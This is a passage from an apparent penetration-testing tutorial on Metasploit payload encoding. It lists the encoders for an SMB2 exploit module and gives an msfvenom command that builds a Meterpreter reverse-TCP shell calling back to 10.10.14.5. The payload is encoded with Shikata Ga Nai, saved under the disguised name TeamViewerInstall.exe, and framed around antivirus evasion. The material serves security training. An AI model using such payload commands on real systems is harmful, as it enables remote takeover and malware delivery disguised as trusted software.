 ```shell-session
msf6 exploit(ms09_050_smb2_negotiate_func_index) > show encoders

Compatible Encoders
===================

   Name                    Disclosure Date  Rank       Description
   ----                    ---------------  ----       -----------
   generic/none                             normal     The "none" Encoder
   x86/alpha_mixed                          low        Alpha2 Alphanumeric Mixedcase Encoder
   x86/alpha_upper                          low        Alpha2 Alphanumeric Uppercase Encoder
   x86/avoid_utf8_tolower                   manual     Avoid UTF8/tolower
   x86/call4_dword_xor                      normal     Call+4 Dword XOR Encoder
   x86/context_cpuid                        manual     CPUID-based Context Keyed Payload Encoder
   x86/context_stat                         manual     stat(2)-based Context Keyed Payload Encoder
   x86/context_time                         manual     time(2)-based Context Keyed Payload Encoder
   x86/countdown                            normal     Single-byte XOR Countdown Encoder
   x86/fnstenv_mov                          normal     Variable-length Fnstenv/mov Dword XOR Encoder
   x86/jmp_call_additive                    normal     Jump/Call XOR Additive Feedback Encoder
   x86/nonalpha                             low        Non-Alpha Encoder
   x86/nonupper                             low        Non-Upper Encoder
   x86/shikata_ga_nai                       excellent  Polymorphic XOR Additive Feedback Encoder
   x86/single_static_bit                    manual     Single Static Bit
   x86/unicode_mixed                        manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
   x86/unicode_upper                        manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
```

Take the above example just as that—a hypothetical example. If we were to encode an executable payload only once with SGN, it would most likely be detected by most antiviruses today. Let's delve into that for a moment. Picking up `msfvenom`, the subscript of the Framework that deals with payload generation and Encoding schemes, we have the following input:

```shell-session
$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
Saved as: TeamViewerInstall.exe
```

This will generate a payload with the `exe` format, called TeamViewerInstall.exe, which is meant to work on x86 architecture processors for the Windows platform, with a hidden Meterpreter reverse\_tcp shell payload, encoded once with the Shikata Ga Nai scheme. Let us take the result and upload it to VirusTotal.
